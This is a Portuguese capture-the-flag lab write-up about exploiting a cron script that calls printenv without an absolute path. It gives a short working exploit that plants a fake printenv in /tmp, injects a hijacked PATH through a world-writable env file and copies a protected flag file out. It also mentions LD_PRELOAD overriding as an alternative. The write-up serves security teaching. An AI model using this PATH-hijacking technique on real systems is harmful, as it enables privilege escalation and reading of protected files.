 # CTF Semana #5 (Linux Enviroment)

O CTF consiste num script que corre a cada minuto, com o `cron`, no user `flag_reader`. Este user é o unico que consegue ler a flag localizada em `/flags/flag.txt`. O cronjob, corre o seguinte script:

```bash
#!/bin/bash

if [ -f "/home/flag_reader/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /home/flag_reader/env | /usr/bin/xargs)
    echo "" > /home/flag_reader/env
fi

printenv
exec /home/flag_reader/reader
```
Este script consiste em primeiro, exportar as variáveis de ambiente que estão no ficheiro `/home/flag_reader/env` que é um link para o `/tmp/env` e depois correr o programa reader, em que o código é:

```c
#include <stdio.h>
#include <unistd.h>

void my_big_congrats(){
    puts("TODO - Implement this in the near future!");
}

int main() {
    puts("I'm going to check if the flag exists!");

    if (access("/flags/flag.txt", F_OK) == 0) {
        puts("File exists!!");
        my_big_congrats();
    } else {
        puts("File doesn't exist!");
    }

    return 0;
}
```

Neste caso, podem existir duas vulnerabilidades: usar o LD_PRELOAD para dar override a função `access()`, por exemplo. Ou dar override à variável de ambiente `PATH`, visto que os caminhos para os binários usados no script não são absolutos.

O `PATH` é utilizado por _shells_ para descobrir onde estão os caminhos de binários conhecidos pelo o sistema/utilziado, sem escrever sempre o caminho absoluto/relativo destes. O `PATH` pode ter vários diretórios, separados por `:` mas o diretório à esquerda têm mais precedência sobre o segundo. 

Vamos optar pela a segunda opção, pois é mais fácil de implementar, e que consegue ser explorada pelo o seguinte script: 

```bash
touch /tmp/env
chmod 666 env
mkdir -p /tmp/exploitt
echo '#!/bin/sh
cat /flags/flag.txt > /tmp/exploitt/lmao.txt
' > /tmp/exploitt/printenv
chmod 777 /tmp/exploitt/printenv
touch /tmp/exploitt/lmao.txt
chmod 777 /tmp/exploitt/lmao.txt
echo "PATH=/tmp/exploitt:/command:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin" > /tmp/env
```

Este script pode ser explicado pela a seguinte sequencia de passos:

1. Dar setup ao environment, por vezes o ficheiro `env` pode não existe ou estar com variáveis certas
2. Fazer o nosso executável `printenv` que escreva a flag noutro sítio accessível pelo o nosso user, pois este no script não usa o caminho absoluto. 
3. Alterar o `PATH` para incluir o nosso diretório de procura e que tenha mais prioridade (ou seja ser o primeiro a aparecer).

Depois de correr estes comandos, em cada minuto ele vai escrever a flag em `/tmp/exploitt/lmao.txt`.

![Proof](images/ctf4-writeup0.png)
